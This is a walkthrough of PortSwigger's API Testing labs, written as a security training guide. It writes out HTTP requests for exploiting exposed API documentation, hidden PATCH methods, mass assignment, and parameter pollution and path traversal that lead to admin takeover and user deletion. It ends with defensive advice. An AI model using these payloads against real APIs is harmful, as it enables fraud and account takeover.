

# API Testing: Complete PortSwigger Web Security Academy Master Guide



Welcome to the comprehensive master walkthrough and technical methodology guide for the **PortSwigger Web Security Academy API Testing** module. Application Programming Interfaces (APIs) represent the primary communication fabric of modern web and mobile applications. Vulnerabilities arise when API endpoints fail to enforce robust authentication, access control, input validation, or object-level authorization on direct HTTP requests.

---

## 📑 Module Overview & Lab Summary

| Lab Name | Vulnerability Type | Target Endpoint / Mechanism | Objective |
|---|---|---|---|
| **Lab 1: Exploiting an API endpoint using documentation** | Information Disclosure / Exposed API Docs | `/api/documentation`, `DELETE /api/users/{username}` | Delete user `carlos` |
| **Lab 2: Finding and exploiting an unused API endpoint** | Hidden Method / Insecure Direct Method | `PATCH /api/products/1/price` | Purchase leather jacket for \$0.00 |
| **Lab 3: Exploiting a mass assignment vulnerability** | Mass Assignment / Unbounded Binding | `POST /api/checkout` (`chosen_discount`) | Buy leather jacket for \$0.00 |
| **Lab 4: Exploiting server-side parameter pollution in a query string** | Server-Side Parameter Pollution (SSPP) | `/forgot-password` (`reset_token`) | Reset admin password & delete carlos |
| **Lab 5: Exploiting server-side parameter pollution in a REST path** | Path Traversal / SSPP in REST path | `/forgot-password` (`..%2f`) | Delete user `carlos` |

---

## Core Methodology: API Reconnaissance & Discovery

When approaching an API security assessment, begin by mapping the attack surface:



### Common API Documentation Paths:
```text
/api
/api-docs
/openapi.json
/swagger.json
/v1/api-docs
/swagger/index.html
/api/swagger-ui.html
```

---

## Lab 1: Exploiting an API endpoint using documentation

### 🎯 Objective
Locate exposed API documentation, identify an undocumented administrative endpoint, and delete the user account `carlos`.

### 🔍 Technical Analysis & Walkthrough
1. Browse the target application and log in using provided credentials: `wiener:peter`.
2. Inspect Burp Suite HTTP history. When loading the home page, the browser issues requests to `/api/products`.
3. Probe common API documentation paths:
   ```http
   GET /api/documentation HTTP/1.1
   Host: TARGET_LAB_ID.web-security-academy.net
   Cookie: session=WIENER_SESSION
   ```
4. The server returns an interactive Swagger UI page displaying the API schema:
   - `GET /api/products` - List products
   - `GET /api/users/{username}` - Retrieve user profile
   - `DELETE /api/users/{username}` - Delete user account (Admin only / Missing Auth!)
5. The documentation reveals that `DELETE /api/users/{username}` lacks proper role-based access control (RBAC).
6. Send the delete request to Burp Repeater:
   ```http
   DELETE /api/users/carlos HTTP/1.1
   Host: TARGET_LAB_ID.web-security-academy.net
   Cookie: session=WIENER_SESSION
   ```
7. The server returns `204 No Content` or `200 OK` with `{"message": "User deleted"}`. The lab is solved.

---

## Lab 2: Finding and exploiting an unused API endpoint

### 🎯 Objective
Identify an undocumented or hidden HTTP verb on a product API endpoint, modify the price of the "Lightweight l33t leather jacket", and complete the checkout for \$0.00.

### 🔍 Walkthrough & Methodology
1. Log into your account (`wiener:peter`). Notice your store credit is \$100, but the leather jacket costs \$1337.
2. Select the leather jacket product page. In Burp HTTP History, identify the API call fetching product details:
   ```http
   GET /api/products/1/price HTTP/1.1
   Host: TARGET_LAB_ID.web-security-academy.net
   ```
3. Test alternative HTTP verbs on this endpoint using Burp Repeater:
   - `POST /api/products/1/price` $\rightarrow$ `405 Method Not Allowed`
   - `PUT /api/products/1/price` $\rightarrow$ `405 Method Not Allowed`
   - `PATCH /api/products/1/price` $\rightarrow$ Returns `400 Bad Request: "Missing required parameter 'price'"`!
4. The endpoint supports an unadvertised `PATCH` method with Content-Type `application/json`.
5. Send the update payload:
   ```http
   PATCH /api/products/1/price HTTP/1.1
   Host: TARGET_LAB_ID.web-security-academy.net
   Cookie: session=WIENER_SESSION
   Content-Type: application/json

   {
     "price": 0
   }
   ```
6. The server responds with `200 OK` and confirms: `{"price": 0}`.
7. Return to the browser, add the leather jacket to your cart (price is now \$0.00), and click **Place Order**.

---

## Lab 3: Exploiting a mass assignment vulnerability

### 🎯 Objective
Exploit a mass assignment flaw during checkout to apply a hidden 100% discount parameter and purchase the jacket.

### 🔍 Walkthrough & Methodology
1. Add the leather jacket to your shopping cart.
2. Inspect the JSON structure returned when viewing the cart or placing an order:
   ```json
   {
     "order_id": 412,
     "items": [
       {"id": 1, "quantity": 1}
     ],
     "chosen_discount": {
       "percentage": 0
     }
   }
   ```
3. Notice the object property `"chosen_discount": {"percentage": 0}`. The frontend UI has no input field for discounts, but the backend model maps arbitrary incoming JSON properties directly onto the order entity.
4. Intercept the checkout submission (`POST /api/checkout`) in Burp Suite.
5. Append the `chosen_discount` property to the JSON body:
   ```http
   POST /api/checkout HTTP/1.1
   Host: TARGET_LAB_ID.web-security-academy.net
   Cookie: session=WIENER_SESSION
   Content-Type: application/json

   {
     "chosen_discount": {
       "percentage": 100
     }
   }
   ```
6. Send the request. The backend binds the parameter, sets the order total to \$0.00, and completes the purchase.

---

## Lab 4: Exploiting server-side parameter pollution in a query string

### 🎯 Objective
Use Server-Side Parameter Pollution (SSPP) in a password reset request to truncate backend query parameters, leak the administrator reset token, and reset the admin password.

### 🔍 Walkthrough & Methodology
1. Navigate to the password reset page (`/forgot-password`).
2. Enter username `administrator`. The application indicates a reset email was sent.
3. In Burp Suite, observe the request:
   ```http
   POST /forgot-password HTTP/1.1
   Host: TARGET_LAB_ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded

   username=administrator
   ```
4. The front-end server constructs an internal backend request:
   `https://internal-api/reset?username=USER_INPUT&field=email`
5. Test parameter injection using URL-encoded ampersand (`%26`) and truncation characters (`#` encoded as `%23`):
   ```text
   username=administrator%26field=reset_token%23
   ```
6. This pollutes the internal query string into:
   `https://internal-api/reset?username=administrator&field=reset_token#&field=email`
7. The internal API evaluates `field=reset_token`, returning the password reset token in the HTTP response:
   ```json
   {"result": "Token generated: abc123def456..."}
   ```
8. Use this token on the reset portal (`/forgot-password?reset_token=abc123def456...`) to assign a new password to `administrator`.
9. Log in as administrator, access `/admin`, and delete user `carlos`.

---

## Lab 5: Exploiting server-side parameter pollution in a REST path

### 🎯 Objective
Exploit path traversal within an internal REST API query to execute an unauthorized administrative endpoint and delete `carlos`.

### 🔍 Walkthrough & Methodology
1. Intercept the password reset request for `administrator`.
2. The front-end interacts with an internal REST service formatted as:
   `https://internal-api/users/{username}/reset-token`
3. Test URL-encoded directory traversal sequences in the `username` parameter:
   ```text
   username=..%2f..%2f
   ```
   The backend responds with an internal 404 error revealing the routing structure:
   `/api/internal/v1/users/`
4. Inspecting the API hierarchy reveals an administrative deletion route:
   `/api/internal/v1/users/{username}/delete`
5. Craft a traversal payload targeting `carlos`:
   ```http
   POST /forgot-password HTTP/1.1
   Host: TARGET_LAB_ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded

   username=carlos%2f..%2f..%2fusers%2fcarlos%2fdelete%23
   ```
6. The internal router resolves the path to `/api/internal/v1/users/carlos/delete`, deleting the account and solving the lab.

---

## 🛡️ Remediation & Defensive Best Practices

1. **Strict Object Binding Allowlisting:** Never bind incoming request bodies directly to database models. Use explicit Data Transfer Objects (DTOs) with defined allowable properties to eliminate mass assignment.
2. **Access Control on All Endpoints:** Ensure every API route enforces authentication and role-based permissions independently of whether the endpoint is advertised in the UI.
3. **Restrict Internal Documentation:** Secure or disable Swagger, OpenAPI, and debug consoles in production environments.
4. **URL Encoding & Input Sanitization:** Validate and sanitize parameters before concatenating them into internal HTTP requests or REST paths to prevent parameter pollution and path traversal.
5. **Rate Limiting & Throttling:** Implement granular rate limits per API key, IP address, and authenticated user session.
